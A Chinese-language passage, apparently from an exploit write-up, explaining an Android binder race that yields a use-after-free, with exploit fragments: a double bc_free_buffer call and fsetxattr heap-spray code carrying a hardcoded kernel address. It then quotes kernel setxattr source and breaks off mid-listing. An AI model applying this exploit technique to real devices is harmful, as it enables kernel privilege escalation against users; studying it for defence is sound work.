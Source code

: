 就是bc_transaction,br_transaction，bc_reply,bc_transaction,br_transaction没干什么，主要是bc_reply,binder_ioctl->binder_thread_write->case BC_reply->bc_transaction->binder_alloc_new_buf中找适合大小的binder_buffer,也就是我们的诱饵binder_buffer,而诱饵的binder_buffer->allow_user_free==1 ,接着进入narrow window,此时主线程在干什么

```c
bc_free_buffer(replyParcelIndex);
bc_free_buffer(replyParcelIndex - 1);
```

为什么要binder_alloc_free_buf两次呢，正如我前面前置知识经过，第一次bc_free_buffer会可能kfree 我们诱饵binder_buffer后面的一个无关binder_buffer,而对于它前面的replyParcelIndex - 1 binder_buffer 它的free为0，不会kfree合并，(binder_buffer在虚拟和物理地址上是连续的) ，因而第一次bc_free_buffer解除我们诱饵binder_buffer的映射，binder_buffer->free = 1,将诱饵binder_buffer的下一个无关binder_buffer free掉(可能)，而第二次bc_free_buffer 由于已经将我们的诱饵binder_buffer->free标为1，因而kfree掉我们的诱饵binder_buffer,造成uaf,总的来说，第一次bc_free_buffer将我们的诱饵binder_buffer->free = 1,第2次kfree掉它

，子线程还在narrow window，接下来主线程执行堆喷部分

```c
#define BUFF_SIZE 96
void heapGuard()
{
	fsetxattr(fd_guard_heap, "user.g", guardBuffer, 1000, 0);
}
void heap_spray()
{
	char buff[BUFF_SIZE];
	memset(buff, 0 ,BUFF_SIZE);
	*(size_t *)((char *)buff + 64) = 20;
	*(size_t *)((char *)buff + 88) = 0xffffffc001e50834;
	fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);
}

void heap_spray_times()
{
	for (int i = 0; i < HEAP_SPRAY_TIME; i++)
	{
		heap_spray();
		heapGuard();
	}
}
heap_spray_times();
```

我们先来看heap_spray(),buff为什么赋这个值，到ksma利用时再说,为什么buff为96，因为binder_buffer大小为96，为的是待会喷上去，关键是fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);我们来看看fsetxattr源码

```c
static long
setxattr(struct dentry *d, const char __user *name, const void __user *value,
     size_t size, int flags)
{
    int error;
    void *kvalue = NULL;
    void *vvalue = NULL; /* If non-NULL, we used vmalloc() */
    char kname[XATTR_NAME_MAX + 1];
 
    if (flags & ~(XATTR_CREATE|XATTR_REPLACE))
        return -EINVAL;
 
    error = strncpy_from_user(kname, name, sizeof(kname));
    if (error == 0 || error == sizeof(kname))
        error = -ERANGE;
    if (error < 0)
        return error;
 
    if (size) {
        if (size > XATTR_SIZE_MAX)
```
